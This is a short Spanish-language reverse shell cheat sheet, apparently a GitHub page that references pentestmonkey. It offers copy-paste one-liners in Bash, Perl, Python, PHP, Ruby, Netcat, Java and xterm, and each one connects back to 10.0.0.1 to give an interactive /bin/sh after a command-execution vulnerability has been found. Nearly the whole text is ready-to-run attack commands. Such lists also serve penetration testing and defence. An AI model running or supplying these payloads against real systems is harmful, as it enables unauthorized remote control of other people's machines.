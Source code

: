 # Reverse Shells
Si tiene la suerte de encontrar una vulnerabilidad de ejecución de comandos, probablemente querrán un shell interactiva.
Cada uno de los métodos son de una sola línea que puede copiar / pegar.
* [Bash](#bash)
* [PERL](#perl)
* [Python](#python)
* [PHP](#php)
* [Ruby](#ruby)
## Bash
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
## PERL
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```
## Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
## PHP
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
## Ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
## Netcat
```
nc -e /bin/sh 10.0.0.1 1234
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
## Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
## xterm
```
xterm -display 10.0.0.1:1
```
```
Xnest :1
```
```
xhost +targetip
```
## References
* [All Shells](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

